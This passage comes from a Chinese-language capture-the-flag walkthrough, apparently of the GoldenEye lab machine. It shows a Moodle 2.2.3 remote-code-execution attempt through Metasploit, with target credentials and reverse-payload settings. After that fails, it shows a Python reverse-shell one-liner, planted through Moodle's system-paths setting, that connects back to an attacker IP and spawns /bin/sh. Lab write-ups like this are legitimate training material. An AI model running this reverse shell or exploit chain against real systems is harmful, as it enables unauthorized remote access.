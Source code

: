 ![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN9423k4tdnPygRYoZE2iajGWqsWqKB8q4qChVdek85QxWaKNN6Ab2nmRg/640?wx_fmt=png)

进去内容太多了，花了很多时间查看，图片红框显示和我前面使用 dr_doak 用户登陆邮箱发现的结果一致，这是 Moodle 使用的 2.2.3 版本，获得版本名称后，我快速搜索了网上的可用漏洞。

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN97A2bgthdUiaPuOXt4bAtOoeDmOAFjb8MyyKuJkMQ1blhpGB7C2iadODA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN9ZGoGraMqBiaZLEJJGTgXGialWcRIO6OyY8YMXhqOzWc0hdOMraoBiaa6Q/640?wx_fmt=png)

二、渗透 - getshell
---------------

此版本有许多漏洞利用，由于我们需要在目标计算机上进行外壳访问，因此我选择使用远程代码执行（RCE）漏洞利用。  
使用我们的神器：MSF

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN9AdibtxHRqMbqXXqkF7Vic1Q6FKQibUQ7rS0F3ebBXSTsibr1cuibRFWgEYQ/640?wx_fmt=png)

设置用户名：admin  
设置密码：xWinter1995x！  
设置：rhosts severnaya-station.com  
设置：targeturi / gnocertdir  
设置 payload：cmd / unix / reverse  
设置：lhost 192.168.1.45  
这里不会配置的还是别往下学了，去学下 MSF 的基础渗透教学。

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN9CQl1nnhoMYHic7EIhY9vqGJRPYlALlxxhDIhq6fvmCYTwgB1QY0xs6g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN94tYI5iaibvUlzO3eSSTLQeBT7pWZQW9Az8rdpicyxGcW002A1MNpxlj2g/640?wx_fmt=png)

提权失败，网上搜索看到一篇老外写的 Walkthrough，目标主机上不存在 GCC 编译，只能 CC 编译，所以在需要把 Google Spell 编译改成 PSpellShell 编译。

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN9hBGW2AmYbwL9FX8mAKzfQf0waTbF6o7ZIzEoS4FwOgYuyhicA6GObCQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN90KIgUVg4HWibbGuV02TcDwRJ9SJdzG1ibRY3YybOGSNHIgib4sLbxL4AA/640?wx_fmt=png)

按道理应该能获取 www 低权限，经过百度谷歌多方面咨询大神，是因为我 kali 中 MSF 版本升级太高，会遇到 RCE 无法渗透问题，这里耽误了很多时间，心里想着可以 getshell 了，结果 MMP，反弹 shell 用不了，只能使用内核提权了。  
初步得先拿到随便一个权限，低权限也行呀，NM！！  
只能使用另外的反弹 shell 方式渗透了… 我太难了…  
经过长时间的网上搜索学习，找到了方法。

由于我们已经使用了管理员 admin 用户登录页面，可以进行网站管理，在页面中找到了 Site administration-Server-System paths  
网站管理系统路径，发现可以上传代码。

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN9w7ZMvkUflzPHIJTCZRruCia6uxRvbyqPYXDeib65Eia65RhrzqtZ0vIsA/640?wx_fmt=png)

本人初学 python 是小甲鱼教的，这里打一波鱼哥广告…  
这里可以用到 python 代码，进行反弹 shell 渗透。  
使用代码：python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.182.135”,6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’  
使用 python 对本地 6666 端口上传一个 shell，相当于一个 muma，我们需要在本地开启端口 6666。

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN99vrgCkdBlZTB1IX4k9rAic8b8vFG2FqNpWInoYweEojbUWzh6eZvSwg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDS0yKRSxiaSicFCpzcj8WXN9xicjY9icxnRT5ibicTO28Zk4wfKKx0Ebm0VGV3RPUAqib3WmicWRicoFeqpPg/640?wx_fmt=png)
